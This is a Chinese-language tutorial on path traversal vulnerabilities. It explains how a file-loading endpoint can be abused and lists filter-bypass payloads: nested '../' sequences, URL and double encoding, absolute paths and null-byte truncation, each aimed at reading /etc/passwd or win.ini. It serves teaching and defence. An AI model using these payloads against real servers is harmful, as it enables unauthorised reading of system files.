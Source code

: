 文件路径遍历漏洞是Web应用中常见的安全问题之一，攻击者可以通过该漏洞读取服务器上的任意文件。本文将详细介绍文件路径遍历漏洞的原理以及常见的绕过防护措施的方法。
## 通过路径遍历读取任意文件
某购物应用通过 `<img>` 标签加载商品图片，代码如下：
```html
<img src="/loadImage?filename=218.png">
```
`loadImage` 接口通过 `filename` 参数指定文件名，从 `/var/www/images/` 目录读取文件并返回内容，构造的文件路径为：
```
/var/www/images/218.png
```
### 攻击原理
该应用未对路径遍历攻击做防护，攻击者可利用此漏洞。例如，请求以下URL：
```html
https://insecure-website.com/loadImage?filename=../../../etc/passwd
```
此时文件路径变为：
```
/var/www/images/../../../etc/passwd
```
`../` 表示向上一级目录移动，连续三个 `../` 使路径从 `/var/www/images/` 跳转到文件系统根目录，最终读取的文件是：
```
/etc/passwd
```
在 Unix 系统中，该文件包含服务器注册用户信息。攻击者可利用相同技术读取其他任意文件。
### Windows系统情况
在Windows系统中，`../` 和 `..\` 都是有效的目录遍历序列。例如：
```html
https://insecure-website.com/loadImage?filename=..\..\..\windows\win.ini
```
这将读取 `C:\windows\win.ini` 文件。
## 绕过路径遍历漏洞防护的常见方法
### 1. 使用绝对路径
如果应用未对绝对路径做限制，可直接指定文件路径，例如：
```html
https://example.com/loadImage?filename=/etc/passwd
```
### 2. 嵌套遍历序列
利用嵌套的遍历序列绕过简单过滤，例如：
```html
https://example.com/loadImage?filename=....//....//etc//passwd
```
或混合使用正反斜杠：
```html
https://example.com/loadImage?filename=....\/....\/etc\/passwd
```
### 3. URL编码与双重编码
在某些情况下，例如在 URL 路径或 `multipart/form-data` 请求的 `filename` 参数中，Web 服务器可能会在将输入传递给应用程序之前去除任何目录遍历序列。
所以，可对 `../` 进行URL编码或双重编码绕过过滤：
- 单层编码：`%2e%2e%2f`
- 双重编码：`%252e%252e%252f`
- 非标准编码：`..%c0%af` 或 `..%ef%bc%8f`
### 4. 路径规范化绕过
利用路径规范化特性构造有效路径，例如：
```html
https://example.com/loadImage?filename=/var/www/images/../../../etc/passwd
```
### 5. 满足文件名要求的绕过
#### 5.1 以特定目录开头
如果要求文件名必须以 `/var/www/images` 开头，可构造：
```html
https://example.com/loadImage?filename=/var/www/images/../../../etc/passwd
```

#### 5.2 以特定扩展名结尾
如果要求文件名必须以`.png`结尾，可使用空字节截断：
```html
https://example.com/loadImage?filename=../../../etc/passwd%00.png
```